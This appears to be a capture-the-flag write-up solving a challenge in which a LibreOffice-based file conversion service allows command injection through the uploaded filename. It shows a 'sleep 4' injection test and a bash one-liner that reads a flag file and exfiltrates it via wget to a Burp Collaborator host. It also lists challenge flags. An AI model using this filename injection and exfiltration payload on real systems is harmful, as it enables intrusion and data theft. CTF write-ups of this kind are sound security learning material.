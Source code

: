 Proof of Solving
---------------
Tried to upload an html with an iframe to my site. It worked. tried js, no. Iframe doesn't work properly, just sends request.

```accesslog
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "OPTIONS / HTTP/1.1" 405 166 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "HEAD / HTTP/1.1" 200 0 "-" "LibreOffice"
37.128.230.46 - - [06/Apr/2019:10:39:45 +0000] "GET / HTTP/1.1" 200 93 "-" "LibreOffice"
```

Then i tried everything. Found something about remote arbitrary file disclosure in LibreOffice. Tried that, didnt work.

Left it like that, got to work on other challenges.

Got back. https://github.com/BuffaloWill/oxml_xxe.git nothing. svg, xml xxe.

Reading the hint I figured I should think deeper how they process this. Well I already know it's a libre office convert. And allows lots of format. But what if the filename is used in the command? Let's try that.

```http
filename=`sleep 4`
```

It worked. I tried dig first with burp collaborator. It works.

Lets exfiltrate with dig. Too tedious.

Found out that curl wasn’t available. Also slashes didn’t work. A lot of tries later I came up with this.

```bash
$(find src | grep flag.js | head -n1 | xargs -I{} wget v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net --post-data a={})
```

And I got

```http
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: v0w0824vj4o195hog7gz3trvomuci1.burpcollaborator.net
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

a=module.exports = ECSC{98028539a362efecbde13ae4df924e02432555bb1f4730219938330651d84f35};
```


Crypto Luck (150pts): Crypto
==============

Proof of Flag
-------------
`ECSC{bab4d1bdea5baf2a5ce69c2fd7e4945edd39970bc0eb49ea390d58a7d24c3986}`

